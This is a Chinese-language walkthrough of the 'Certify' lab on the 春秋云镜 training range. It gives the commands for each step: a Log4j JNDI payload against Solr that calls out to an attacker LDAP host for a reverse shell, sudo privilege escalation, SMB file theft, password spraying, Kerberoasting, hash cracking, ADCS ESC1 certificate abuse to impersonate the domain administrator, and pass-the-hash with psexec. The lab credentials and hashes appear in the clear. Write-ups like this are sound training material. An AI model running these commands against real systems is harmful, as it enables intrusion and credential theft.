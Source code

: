 ## 文章

[春秋云镜 Certify Writeup](https://exp10it.cn/2023/08/%E6%98%A5%E7%A7%8B%E4%BA%91%E9%95%9C-certify-writeup/#flag02)

[春秋云境·Certify](https://fushuling.com/index.php/2023/10/06/%e6%98%a5%e7%a7%8b%e4%ba%91%e5%a2%83%c2%b7certify/)

## 打靶过程

先用fscan扫一下

```bash
./fscan -h 39.99.139.131 -p 1-65535
```

![image-20231012191318621](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012191318621.png)

存在solr，用扫描器检测一下

检测不成功，那我们访问看看

![image-20231012191620269](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012191620269.png)

存在log4j组件

![image-20231012191659565](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012191659565.png)

尝试用poc进行验证，成功请求

```http
/solr/admin/cores?action=${jndi:ldap://lh6atyhoktixev9c7qaz9exfp6vwjl.oastify.com}
```



![image-20231012192440993](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012192440993.png)

利用JNDIExp搭建恶意ldap服务器

```bash
java -jar JNDIExp.jar --ip 182.92.161.222
```

反弹shell

```bash
/solr/admin/cores?action=${jndi:ldap://182.92.161.222:1389/Basic/ReverseShell/182.92.161.222/7777}
```

成功获取shell

![image-20231012193949944](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012193949944.png)

看下sudo， 有个grc权限

```bash
sudo -l
```

![image-20231012194034324](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012194034324.png)

grc提权获取flag

```bash
sudo grc --pty /bin/sh
```

![image-20231012194319565](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012194319565.png)

看下网卡

```bash
ifconfig
```

![image-20231012200017516](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012200017516.png)

传入fscan扫

```bash
./fscan -h 172.22.9.19/24
```

搭建代理

尝试用smbclient连一下172.22.9.47

```bash
python smbclient 172.22.9.47
shares
use fileshare
ls
get personnel.db
cd secret
get flag02.txt
```

获取flag和personnel.db

![image-20231012201456647](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012201456647.png)

personnel.db用DB Broswer看一下

有一个用户表和密码表

![image-20231012201552736](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012201552736.png)

![image-20231012201607456](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012201607456.png)

进行爆破

```bash
proxychains4 crackmapexec smb 172.22.9.26 -u '/home/kali/Desktop/user'  -p '/home/kali/Desktop/pass' -d xiaorang.lab
```

爆出一个可用账户

![image-20231012203441836](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012203441836.png)

```bash
xiaorang.lab\zhangjian:i9XDE02pLVf
```

尝试远程桌面后，无法连接

上一个flag提示了SPN，尝试抓取SPN

```bash
python .\GetUserSPNs.py -request xiaorang.lab/zhangjian:i9XDE02pLVf -dc-ip 172.22.9.7
```

得到zhangxia和chenchen的密码hash

![image-20231012204348214](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012204348214.png)

用john爆一下，获取密码

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt '/home/kali/Desktop/1.txt'
```

![image-20231012204600990](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012204600990.png)

```
MyPass2@@6       (zhangxia)     
@Passw0rd@       (chenchen) 
```

rdp登录，成功登录

![image-20231012205630579](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012205630579.png)

之后可能是要打ADCS证书服务攻击

先看下ADCS信息

```bash
certutil
```

![image-20231012210006494](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210006494.png)

扫下证书漏洞

```bash
certipy find -u 'zhangxia@xiaorang.lab'  -password 'MyPass2@@6' -dc-ip 172.22.9.7 -vulnerable -stdout
```

存在ESC1漏洞

![image-20231012210349976](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210349976.png)

下面利用 ESC1

申请 `XR Manager` 证书模版并伪造域管理员

```bash
certipy req -u 'zhangxia@xiaorang.lab' -p 'MyPass2@@6' -target 172.22.9.7 -dc-ip 172.22.9.7 -ca 'xiaorang-XIAORANG-DC-CA' -template 'XR Manager' -upn 'administrator@xiaorang.lab'
```

![image-20231012210603734](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210603734.png)

利用证书获取 TGT 和 NTLM Hash

```bash
certipy auth -pfx administrator.pfx -dc-ip 172.22.9.7
```

![image-20231012210658114](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012210658114.png)

之后用psexec横向获取flag

```bash
python psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 xiaorang.lab/administrator@172.22.9.26 -codec gbk
python psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:2f1b57eefb2d152196836b0516abea80 xiaorang.lab/administrator@172.22.9.7 -codec gbk
```

![image-20231012211840236](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012211840236.png)

![image-20231012211854980](C:\Users\绮洛\AppData\Roaming\Typora\typora-user-images\image-20231012211854980.png)